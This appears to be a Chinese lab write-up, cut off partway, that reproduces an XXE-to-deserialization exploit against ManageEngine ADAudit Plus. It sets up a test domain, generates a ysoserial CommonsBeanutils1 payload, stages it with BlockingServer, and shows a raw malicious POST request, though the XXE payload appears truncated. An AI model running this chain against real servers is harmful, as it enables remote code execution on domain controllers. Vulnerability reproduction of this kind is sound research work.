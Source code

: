 一、环境搭建
------

需要一个域环境，将机器提升为域控之后。安装[managerEngine](https://archives2.manageengine.com/active-directory-audit/7055/ManageEngine_ADAudit_Plus_x64.exe)，直接下载好拖到域控上安装即可。安装完成之后，访问dc的8081端口（默认为8081）。  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-93482537922a970a0cd0e1498129a3d65b0a337e.png)  
默认账号为admin/admin，managerEngine也能默认识别到当前登录域的netbios  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-259a11f205c385d0c5c2106211b315b3d75d3af9.png)

| MangeEngine机器（dc） | 域名 | 攻击机（kali） |
|---|---|---|
| 192.168.20.246 | fbi.gov | 192.168.20.151 |

二、漏洞复现
------

### 第一步

首先使用[ysoserial](https://github.com/frohoff/ysoserial)生成反序列化payload（使用CommonBeanutils1 gadget）。  
`java -jar ysoserial-all.jar CommonsBeanutils1 calc.exe &gt; xxe-upload-test.jar`  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-3122682f3804034290a804b2082d68a3ff7008da.png)

### 第二步

（<https://2013.appsecusa.org/2013/wp-contenthttps://img.xyqlife.com/gzh/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf>  
在这里提到，通过xxe我们可以上传文件和列举目录  
可以使用这个ftp服务器来使文件驻留到目标服务器中。）

使用[BlockingServer](https://github.com/pwntester/BlockingServer)，可以使用这个ftp服务器来使文件驻留到目标服务器中。  
`java BlockingServer 9090 xxe-upload-test.jar`  
![](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-b27277319a0fea387bd2c3444179730680ad9fb5.png)  
之后发送数据包

```php
POST /api/agent/tabs/agentData HTTP/1.1
Host: 192.168.20.246:8081
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Length: 316
Content-Type: application/json

[
    {
        "DomainName": "fbi.gov",
        "EventCode": 4688,
        "EventType": 0,
        "TimeGenerated": 0,
        "Task Content": "&lt;?xml version=\"1.0\" encoding=\"UTF-8\"?&gt; ]&gt;&amp;ssrf;"
    }
]
```

